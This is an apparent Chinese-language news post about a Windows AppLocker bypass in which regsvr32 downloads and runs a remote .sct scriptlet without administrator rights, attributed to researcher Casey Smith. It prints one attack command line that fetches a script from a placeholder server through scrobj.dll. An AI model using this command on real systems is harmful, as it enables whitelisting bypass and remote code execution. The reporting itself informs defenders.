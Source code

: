 
---
layout: post
title: Windows AppLocker被绕过：攻击者可不提权联网注入DLL
categories:
- 今日头条
tags:
---
				![](http://p3.pstatp.com/large/5230000951b1ffb085a)

Regsvr32则是一款可被安装工具（或批处理脚本）使用，以便快速注册动态链接库的脚本工具。

照理说，微软既然把这款“中性”而又危险的工具留在系统中，就应该管好它不被管理员之外的人所滥用。但遗憾的是，我们几乎不可能检测到这种类型的攻击。

据安全研究人员Casey Smith所述，当攻击者在某台受感染的工作站上立足之后，就可以滥用Regsvr32、通过网络下载一个COM脚本程序（.sct文件），然后在本地机器上注册一个DLL。

更糟糕的是，攻击者甚至无需取得管理员权限。Regsvr32可借助代理和TLS连接、重定向等功能，并且它拥有微软自家的证书，所以可以执行任何看似正常的背景活动命令。

下面是标准的Regsvr32参数、以及而已命令的对比：

▪ regsvr32 [/u] [/s] [/n] [/i[:cmdline]] dllname▪ regsvr32 /s /n /u /i:http://server/file.sct scrobj.dll

Smith还指出，“regsvr32能够接收的脚本网址没有很好的记录，要触发这一‘旁路’，可以把内置VB和JS元素的代码块放进去”。

在进一步的测试中，研究人员还在GitHub上放出了系统管理员能够下载的“概念验证脚本”（通过Regsvr32并打开一个后门、或者基于HTTP的反向shell）。

从理论上来说，这种类型的“漏洞”允许攻击者访问注册所有DLL，然后在被感染的计算机上执行恶意代码，更别说管理员权限了。

[编译自：Soft Pedia]